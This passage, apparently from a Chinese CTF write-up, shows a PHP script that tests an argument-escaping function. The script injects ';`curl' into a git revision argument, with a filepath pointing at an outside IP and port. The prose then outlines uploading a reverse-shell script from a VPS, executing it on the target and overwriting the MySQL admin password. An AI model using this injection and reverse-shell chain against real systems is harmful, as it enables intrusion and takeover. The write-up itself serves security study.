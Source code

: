 ```php
        '$1\\\\$2',
        '$1\\\\$2'
    ];
 
    $result = preg_replace($pattern, $replacement, $argument);
    while ($result !== $argument) {
        $argument = $result;
        $result = preg_replace($pattern, $replacement, $argument);
    }
 
    return $result;
    // return '"' . $result . '"';
}
 
$workspace="/var/www/html";
$revision=";`curl";
$filepath="http://8.129.42.140:3307";
 
$revision = wrapArgument($revision);
$filepath = wrapArgument($filepath);
 
echo $revision;echo "\n";
echo $filepath;echo "\n";
 
$command=[
    'cd', $workspace, '&&',
    'YAML_CLI_GIT', 'checkout', $revision, '&&',
    'YAML_CLI_GIT', 'blame', '-p', $revision, $filepath
];
echo implode(' ', $command);
```



![image-20230205192029471](https://raw.githubusercontent.com/hmt38/abcd/main/image-20230205192029471.png)



这样应该是可以了，反引号可以不用的

实战测一下



![image-20230205190839084](https://raw.githubusercontent.com/hmt38/abcd/main/image-20230205190839084.png)



后面就是vps上传反弹shell的sh，然后给靶机执行，执行后需要登录mysql覆盖admin密码才能登录后台getflag，后面的没啥操作，主要还是前面getshell

至于如何调到blameInfo_get这个函数呢

通过不断的在后台抓包，观察各个api，可以发现规律：访问/api/repository/xxx就可以调用到xxx_get

例如

